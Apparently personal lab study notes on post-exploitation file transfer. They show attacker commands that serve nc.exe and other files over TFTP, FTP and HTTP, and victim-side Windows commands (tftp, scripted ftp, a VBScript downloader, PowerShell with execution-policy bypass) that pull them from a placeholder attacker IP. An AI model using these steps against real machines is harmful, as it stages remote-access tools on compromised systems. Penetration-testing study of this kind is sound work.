 #File Transfers (Post Exploitation)

## TFTP
Often restricted in corperate networks, contained in windows up to xp/2003 by default has since has been opt in
+ Quick to setup, non-interactive

Linux Box (attacker)
```
root@kali:# mkdir /tftp
root@kali:# atftpd --daemon --port 69 /tftp
root@kali:# cp /usr/share/windows-binaries/nc.exe /tftp/
```

Windows Box (defender)
```
C:\Program Files\SLmail\System>tftp -i YO.UR.IP.ADD GET nc.exe
   tftp -i YO.UR.IP.ADD GET nc.exe
   Transfer successful: 59392 bytes in 18 second(s), 3299 bytes/s
```

## FTP
Often included in windows, has interactive elements so might need to prewrite a script

Linux Box (attacker) - install pure-ftpd, then run `setup-ftp.sh`
```
root@kali:~/Desktop/lessons/slmail# apt-get install pure-ftpd
root@kali:~/Desktop/lessons/filetransfers# ./setup-ftp.sh 
```

Windows Box (defender) - Paste `ftp.txt` into the shell
```
C:\Program Files\SLmail\System>echo offsec>> ftp.txt
C:\Program Files\SLmail\System>echo lab>> ftp.txt
C:\Program Files\SLmail\System>echo bin>> ftp.txt
C:\Program Files\SLmail\System>echo GET test.txt>> ftp.txt
C:\Program Files\SLmail\System>echo bye>> ftp.txt
C:\Program Files\SLmail\System>ftp -s:ftp.txt
```

## VBScript
Often installed we can mimick wget using this script

Linux (attacker)
```
cp exploit.txt /var/www/exploit.txt
service apache2 start
```

Windows (Defender) - Paste `wget-vbs.txt` into the shell then use
```
cscript wget.vbs http://YO.UR.IP.ADD/test.txt testvbs.txt
```

## Powershell
More modern windows computers, allows bypass of execution policies

Linux (attacker)
```
cp exploit.txt /var/www/exploit.txt
service apache2 start
```

Windows (Defender) - Paste `wget-ps.txt` into the shell then use
```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```
